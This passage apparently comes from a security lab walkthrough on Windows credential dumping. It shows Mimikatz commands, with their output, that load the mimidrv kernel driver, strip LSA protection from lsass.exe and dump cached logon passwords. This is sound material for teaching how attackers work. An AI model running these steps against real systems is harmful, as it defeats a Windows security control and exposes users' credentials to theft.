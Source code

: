 **Note** to get users' hashes, a user (victim) must have logged in to a system, and the user's credentials have been cached.

###  Protected LSASS

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. This task will show how to disable the LSA protection and dump credentials from memory using  Mimikatz. To enable LSASS protection, we can modify the registry  RunAsPPL DWORD value in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` to 1.

The steps are similar to the previous section, which runs the Mimikatz  execution file with admin privileges and enables the debug mode. If the  LSA protection is enabled, we will get an error executing the  "sekurlsa::logonpasswords" command.

- **Failing to Dump Stored Password Due to the LSA Protection**

```markup
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
        
```

The command returns a 0x00000005 error code message (Access Denied). Lucky for us, Mimikatz provides a mimidrv.sys driver that works on kernel  level to disable the LSA protection. We can import it to Mimikatz by  executing "!+" as follows,

- **Loading the mimidrv Driver into Memory**

```markup
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
        
```

Note: If this fails with an `isFileExist` error, exit mimikatz, navigate to `C:\Tools\Mimikatz\` and run the command again.

Once the driver is loaded, we can disable the LSA protection by executing the following Mimikatz command:

- **Removing the LSA Protection**

```markup
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
        
```

Now, if we try to run the "sekurlsa::logonpasswords" command again,  it must be executed successfully and show cached credentials in memory.

# Windows Credential Manager
